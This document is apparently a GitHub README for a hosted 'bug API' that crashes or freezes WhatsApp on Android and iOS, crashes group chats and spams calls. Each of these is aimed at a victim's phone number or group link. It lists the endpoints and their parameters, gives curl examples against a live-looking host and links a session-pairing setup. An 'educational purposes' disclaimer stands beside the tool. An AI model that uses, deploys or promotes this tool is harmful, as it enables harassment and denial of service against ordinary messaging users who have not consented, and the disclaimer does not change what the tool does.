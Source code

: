 
# 🚀X-TECH-Bug API

The **X-TECH-Bug API** is a powerful endpoint API developed by **[X-TECH-CORP](https://github.com/X-TECH-CORP)** to exploit vulnerabilities in WhatsApp. This API provides endpoints that can:

- 🛑 Delay WhatsApp on Android devices.
- 🌋 Spam Call Users on WhatsApp.
- 🍎 Crash WhatsApp on iOS devices.
- 💥 Crash entire WhatsApp group chats.

> **⚠️ Warning:** This API is for educational purposes only. Misuse of this tool may result in serious legal consequences. Use responsibly.

---

## 🌟 Features

- 🔥 **Delay Android Devices**  
- 🕸️ **Spam Call Users**
- 🍏 **Crash iOS Devices**  
- 💬 **Crash Group Chats**

---

## 📌 Endpoints

### 1 **Delay Android WhatsApp**  
**Description:** Delay and crashes WhatsApp on Android devices.  
**Endpoint:**  
```bash
GET ${api_link}/freezeDroid?target=${number}
```  
**Parameters:**  
| Key      | Type   | Description                        |
|----------|--------|------------------------------------|
| `target` | String | The WhatsApp number to be targeted |

---

### 2 **Spam Call Users**  
**Description:** Spam call users on WhatsApp.  
**Endpoint:**  
```bash
GET ${api_link}/callSpam?target=${number}
```  
**Parameters:**  
| Key      | Type   | Description                        |
|----------|--------|------------------------------------|
| `target` | String | The WhatsApp number to be targeted |

---

### 3 **Crash iOS WhatsApp**  
**Description:** Crashes WhatsApp on iOS devices.  
**Endpoint:**  
```bash
GET ${api_link}/iosCrash?target=${number}
```  
**Parameters:**  
| Key      | Type   | Description                        |
|----------|--------|------------------------------------|
| `target` | String | The WhatsApp number to be targeted |

---

### 4 **Crash Group Chats**  
**Description:** Crashes an entire WhatsApp group chat.  
**Endpoint:**  
```bash
GET ${api_link}/crashGroup?target=${grouplink}
```  
**Parameters:**  
| Key        | Type   | Description                              |
|------------|--------|------------------------------------------|
| `target`   | String | The WhatsApp group chat link to target.  |

---

# Setup For Deployment 👇

## 🎯 Generate Pair Code For Session
[![Xeon](https://repl.it/badge/github/quiec/whatsasena)](https://replit.com/@DGXeon/Xeon-PairCode)

## ⚠️ Disclaimer

**Note:**  
This API is designed strictly for educational and research purposes to highlight vulnerabilities in applications. Any unauthorized use to harm individuals, groups, or organizations is strictly prohibited. Ensure you comply with all applicable laws before using this API.

---

## 💻 Example Usage

```bash
# Delay Android WhatsApp
curl -X GET "https://xeon-bug-api.onrender.com/freezeDroid?target=1234567890"

# Spam Call User
curl -X GET "https://xeon-bug-api.onrender.com/callSpam?target=1234567890"

# Crash iOS WhatsApp
curl -X GET "https://xeon-bug-api.onrender.com/iosCrash?target=1234567890"

# Crash Group Chat
curl -X GET "https://xeon-bug-api.onrender.com/crashGroup?target=https://chat.whatsapp.com/exampleGroupLink"
```

---

### 👨‍💻 Developed By: **[X-TECH-CORP](https://github.com/X-TECH-CORP)**

Enjoy bugging responsibly! ✨
